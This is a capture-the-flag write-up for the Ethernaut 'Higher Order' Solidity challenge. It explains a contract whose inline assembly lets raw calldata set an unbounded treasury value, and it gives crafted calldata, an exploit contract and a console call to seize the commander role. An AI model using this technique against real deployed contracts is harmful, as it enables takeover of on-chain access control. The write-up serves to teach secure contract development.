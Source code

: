 # Writeup for Higher Order

- Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity better. Each challenge involves deploying a contract and exploiting its vulnerabilities. If you're new to Solidity and haven't deployed a smart contract before, you can learn how to do so using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge Description

Imagine a world where the rules are meant to be broken, and only the cunning and the bold can rise to power. Welcome to the Higher Order, a group shrouded in mystery, where a treasure awaits and a commander rules supreme.

Your objective is to become the Commander of the Higher Order! Good luck!

Things that might help:

- Sometimes, calldata cannot be trusted.
- Compilers are constantly evolving into better spaceships.

### Contract Explaination

If you understand the contract, you can move on to the [exploit](#exploit) part. If you're a beginner, please read the Contract Explanation to gain a better understanding of Solidity.

Click [here](./src/contracts/HigherOrder.sol) to view the contract source code.

<details>
<summary>Click to view the contract explanation</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

contract HigherOrder {
    address public commander;

    uint256 public treasury;

    function registerTreasury(uint8) public {
        assembly {
            sstore(treasury_slot, calldataload(4))
        }
    }

    function claimLeadership() public {
        if (treasury > 255) commander = msg.sender;
        else revert("Only members of the Higher Order can become Commander");
    }
}

```

This Solidity code defines a contract with two state variables: `commander` of type **address** and `treasury` of type **uint256**.

```solidity
function registerTreasury(uint8) public {
    assembly {
        sstore(treasury_slot, calldataload(4))
    }
}
```

The function `registerTreasury()` takes an argument of type **uint8** as input. It then loads the calldata starting from the 4th byte and assigns it to the `treasury` variable.

It starts from the fourth byte because the `0th byte` to the `3rd byte` (4 bytes) will be the function selector.

```solidity
function claimLeadership() public {
    if (treasury > 255) commander = msg.sender;
    else revert("Only members of the Higher Order can become Commander");
}
```

The function `claimLeadership()` checks whether the `treasury` value is greater than 255. If it is greater than 255, it sets the `commander` to `msg.sender`.

If the `treasury` value is less than or equal to 255, it reverts with an error message: "Only members of the Higher Order can become Commander.

</details>

### Exploit

Our goal is to become the commander. The only way we can become the commander is by setting the treasury value to greater than 255.

```solidity
function registerTreasury(uint8) public {
    assembly {
        sstore(treasury_slot, calldataload(4))
    }
}
```

The registerTreasury() fucntion takes an argument of type uint8. The max value of a uint8 is 255. So while calling registerTreasury() we won't be able to pass number more than 2555.

But if we make a low-level call then it won't check whether the data passes is a uint8 or not. Once we pass the value more than 255 by making a low-level call the challenge will be solved.

Now lets construct the calldata.

```bash
$ cast calldata "registerTreasury(uint8)" 255
```

It will give us `0x211c85ab00000000000000000000000000000000000000000000000000000000000000ff`.

Now we need make changes in calldata because we have sent argument as 255. We need to send more than 255. So let's add one more f before two f's.

The final calldata is `0x211c85ab0000000000000000000000000000000000000000000000000000000000000fff`.

Now lets write our Exploit contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract ExploitHigherOrder{
    address HigherOrder;

    constructor(address _addr){
        HigherOrder=_addr;
    }

    function Expoit()public{
        bytes memory Calldata=hex"211c85ab0000000000000000000000000000000000000000000000000000000000000fff";
        (bool a,)=HigherOrder.call(Calldata);
        require(a,"Exploit Failed");
    }
}
```

Deploy the Exploit contract and call the Exploit() function. Once the call is done then call the claimLeadership() from console.

```javascript
> await contract.claimLeadership()
```

Once call this function the challenge will be solved. Now you can submit the instance.

That's it for this challenge hope you enjoyed this challenge.

### Key takeaways

We should be careful while using assembly because we need to handle all the edge cases for whatever logic we write in assembly. Instead of assembly, if we use Solidity, it will perform all checks and ensure that the treasury value will always be less than or equal to 255.

However, the Solidity compiler version greater than 0.8.0 doesn't have this exploit.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
